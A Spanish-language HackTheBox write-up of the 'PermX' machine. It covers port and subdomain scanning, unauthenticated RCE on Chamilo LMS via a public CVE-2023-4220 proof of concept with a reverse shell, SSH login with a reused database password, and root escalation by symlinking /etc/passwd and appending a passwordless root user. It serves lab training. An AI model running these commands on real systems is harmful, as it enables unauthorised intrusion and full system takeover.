```yaml
---
title: PermX
date: 2024-08-03
categories: [WRITEUPS, HackTheBox]
tags: [chamilo]  # TAG names should always be lowercase
---
```


![picture](/assets/images/hackthebox/permx1.png)

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que se va a realizar es un escaneo de puertos con *NMAP* para comprobar cuáles de ellos están abiertos.

```bash
nmap -p- --open -T5 -sT 10.10.11.23 -n -Pn -v
```

![picture](/assets/images/hackthebox/permx2.png){: w="600" h="300" }

A continuación, añadiremos al */etc/hosts* la dirección *IP* de la máquina, junto con el dominio, para que resuelva el nombre de dominio.

![picture](/assets/images/hackthebox/permx3.png)

Una vez hecho esto, vamos a entrar en la página web.

![picture](/assets/images/hackthebox/permx4.png)

Navegando por la página web no encontramos nada interesante, con lo que realizaremos Fuzzing para encontrar subdominios.

```bash
ffuf -c -u hhtp://permx.htb/ -H "Host: FUZZ.permx.htb" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18
```

![picture](/assets/images/hackthebox/permx5.png)

Encontramos el subdominio **lms**.

A continuación, hay que añadir el subdominio al */etc/hosts* como hemos hecho antes.

![picture](/assets/images/hackthebox/permx6.png)

Y en el subdominio, nos encontramos un panel de autenticación de **Chamilo**.

![picture](/assets/images/hackthebox/permx7.png)

---

## **Explotación**

Con la extensión de *Wappalyzer*, podemos ver que la *versión* de **Chamilo** es la **1**, una versión muy antigua.

![picture](/assets/images/hackthebox/permx8.png)

Navegando por internet encontramos [**CVE-2023-4220**](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc), con el cual podemos ejecutar un **RCE**(*Remote Code Execution*) sin autenticación, nos descargamos e instalamos el repositorio de GitHub como nos indican.

Ejecutamos el script **main.py** junto con el dominio para comprobar si es vulnerable.

```bash
python3 main.py -u http://lms.permx.htb -a scan
```

![picture](/assets/images/hackthebox/permx9.png)

![picture](/assets/images/hackthebox/permx10.png)

Y a continuación nos permite crear tanto una **Web Shell** (*para poder ejecutar comandos desde el navegador*), como una **Reverse Shell** (*para enviarnos una Shell interactiva a nuestra máquina local*), en mi caso, crearé una **Reverse Shell**, para ello nos ponemos en escucha con un **Listener** con **ncat** por un puerto (*4444*) en nuestra máquina local, y una vez lo tengamos, ejecutamos el script.

- Listener

```bash
nc -nlvp 4444
```

- Ejecución del script

```bash
python3 main.py -u http://lms.permx.htb -a revshell
```
Indicamos nuestra dirección IP y el puerto por el que estamos escuchando con *ncat*.

![picture](/assets/images/hackthebox/permx11.png){: w="600" h="300" }

Y obtenemos una **Shell interactiva** con el usuario *www-data*.

![picture](/assets/images/hackthebox/permx12.png)

---

## **Escalada de privilegios**

Buscando dentro de la máquina, en el archivo de configuración */var/www/chamilo/app/config/**configuration.php*** encontramos una contraseña de la base de datos.

![picture](/assets/images/hackthebox/permx13.png){: w="600" h="300" }

Si comprobamos el archivo */etc/passwd*, podemos ver que hay un usuario llamado ***mtz***, vamos a probar a conectarnos mediante **SSH** usando la contraseña encontrada.

Y obtenemos acceso.

![picture](/assets/images/hackthebox/permx14.png)

Primera **flag** encontrada en el directorio personal.

![picture](/assets/images/hackthebox/permx15.png)

A continuación, vamos a intentar escalar los máximos privilegios.

Al mostrar los privilegios de **SUDO** que tiene el usuario ***mtz***, comprobamos que no necesita usar contraseña para ejecutar el script *acl.sh*.

![picture](/assets/images/hackthebox/permx16.png)

El script proporciona una forma de añadir permisos específicos a un archivo para un usuario determinado, siempre y cuando el archivo esté dentro del directorio */home/mtz/*.

![picture](/assets/images/hackthebox/permx17.png){: w="500" h="200" }

A continuación, crearemos un link simbólico del archivo */etc/passwd*, a un archivo llamado "*prueba*" en el directorio */home/mtz*, y ejecutaremos el script para darle **permisos** de **lectura** y **escritura** al archivo creado.

```bash
ln -s /etc/passwd /home/mtz/prueba
```

```bash
sudo /opt/acl.sh mtz rw /home/mtz/prueba
```

![picture](/assets/images/hackthebox/permx18.png)

A continuación, introduciremos un usuario nuevo sin contraseña y con la bash de **root**.

```bash
echo "pwned::0:0:root:/pwned:/bin/bash" >> /home/mtz/prueba
```

![picture](/assets/images/hackthebox/permx19.png)

Migramos de usuario a "**pwned**", y entramos como "**root**".

![picture](/assets/images/hackthebox/permx20.png)

Y en el directorio personal de **root**, obtenemos la segunda **flag**.

![picture](/assets/images/hackthebox/permx21.png)

![picture](/assets/images/hackthebox/permx22.png){: w="600" h="300" }